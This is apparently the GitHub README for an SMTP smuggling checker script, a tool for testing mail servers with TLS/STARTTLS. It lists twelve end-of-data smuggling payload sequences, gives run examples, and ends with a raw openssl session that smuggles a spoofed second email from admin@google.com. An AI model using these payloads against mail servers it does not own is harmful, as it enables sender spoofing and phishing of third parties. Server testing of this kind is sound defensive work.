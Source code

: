 # smtp_smuggling_checker.py
#### smtp smuggling testing / scanning tool with tls / starttls support.
#### Tests 12 different end-of-data sequences in one run for pentest your mailservers

### Infos:
> [!NOTE]
https://www.postfix.org/smtp-smuggling.html
> 
> https://sec-consult.com/blog/detail/smtp-smuggling-spoofing-e-mails-worldwide/

<hr>

## How to use:

```python
       _____  __  ___ ______ ____     _____                                  __               ____   ____   ______
      / ___/ /  |/  //_  __// __ \   / ___/ ____ ___   __  __ ____ _ ____ _ / /___   _____   / __ \ / __ \ / ____/
      \__ \ / /|_/ /  / /  / /_/ /   \__ \ / __ `__ \ / / / // __ `// __ `// // _ \ / ___/  / /_/ // / / // /     
     ___/ // /  / /  / /  / ____/   ___/ // / / / / // /_/ // /_/ // /_/ // //  __// /     / ____// /_/ // /___   
    /____//_/  /_/  /_/  /_/       /____//_/ /_/ /_/ \__,_/ \__, / \__, //_/ \___//_/     /_/     \____/ \____/   
                                                           /____/ /____/                                          
    
    SMTP Smuggle PoC Script v0.1 for checking mailservers - 2024 - by suuhmer

 
usage: smtp_poc.py [-h] [--server SERVER] [--port PORT] [--user USER] [--rcpt RCPT] [--mode MODE] [--forcetls] [--listeod]

Test you mailserver for SMTP Smuggle /w STARTTLS und AUTH PLAIN login.

options:
  -h, --help       show this help message and exit
  --server SERVER  SMTP-(Servername, Domain or IP
  --port PORT      SMTP-Serverport (Use 5870000 for 587 NOSSL-FALLBACK)
  --user USER      SMTP-userername
  --rcpt RCPT      rcpt address
  --mode MODE      Rawmode = raw or Default = def
  --forcetls       Force connection via SSL/TLS
  --listeod        Lists end of data sequences


```


#### Run the script like this:

```bash
# Example : You have to setup the Parameters with the right values!

# Sending via extern SMTP server with STARTTLS support and PLAIN AUTH login (The asking for password will prompt!):
.\smtp_smuggler_poc.py --server mail.server.com --port 587 --user user@yourserver.com --rcpt vic@yourserver.com --mode def --forcetls

# Sending via local SMTP server with STARTTLS forced on port 25 and default login credential in RAW sending mode (telnet socket mode):
.\smtp_smuggler_poc.py --server localhost --port 25 --rcpt vic@yourserver.com --mode raw --forcetls
```

<hr>

> [!NOTE]
> ### Beware this is alpha POC !! tested with postfix and python3
>
> 
<hr>

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/4891d7ef-ecb8-4428-9e01-345eb236b528)


### Testing of postfix mailserver for example (localhost port 25 auth plain login (optional)):
![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f46c47ed-8cd7-4395-9d2e-12589a505e21)

### Extern login via TLS and PLAIN AUTH with getting MX servers

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/7c182b91-4795-47da-8454-6bcd278f8d93)


<hr>

### Testing these 12 payload strings:
#### Smugggling Strings (0-11):

- 0 - smtp_smuggle_escape = '\r\n.\r'
- 1 - smtp_smuggle_escape = '\r.\r'
- 2 - smtp_smuggle_escape = '\r\n\x00.\r'
- 3 - smtp_smuggle_escape = '\r\n\x00.\n'
- 4 - smtp_smuggle_escape = \r\n\x00.\r\n
- 5 - smtp_smuggle_escape = \r\n.\x00\r\n
- 6 - smtp_smuggle_escape = '\r\n.'
- 7 - smtp_smuggle_escape = \n.\r\n
- 8 - smtp_smuggle_escape = \r.\r\n
- 9 - smtp_smuggle_escape = \n\n.\r\n
- 10 - smtp_smuggle_escape = \r\n.\r
- 11 - smtp_smuggle_escape = \n.\n

<hr>

## PoC fastmail still works

By sending over my postfix server fastmail seems to be still vulnerable: (NULL Bytes: 09.01.2024)

![grafik](https://github.com/suuhm/smtp_smuggling_checker.py/assets/11504990/f7b011e1-abea-4f02-bc44-059371e76d77)


<hr>

### Using telnet / openssl client for TLS

```bash
# Get base64 auth String:
# echo -n -e "\000info@myserver.com\000MYPASSWORD" | base64
#

openssl s_client -starttls smtp -crlf -connect mail.myserver.com:587 -tls1_2

EHLO myserver.com

AUTH PLAIN <YOU_BASE_64_STRING>

mail From: info@myserver.com

rcpt To: test@google.de

DATA
354 End data with <CR><LF>.<CR><LF>
From: test <it@google.de>
To: bla <jadu@foo.de>
Subject: Test1
bodyy Test1
<CR><LF>.<CR>
mail From: admin@google.com
rcpt To: jadu@foo.de
data
From: hallo admin <it@google.de>
To: gege <jadu@aniwe.de>
Subject: hallooooo
bodyyhacked
<CR><LF>.<CR><LF>
```

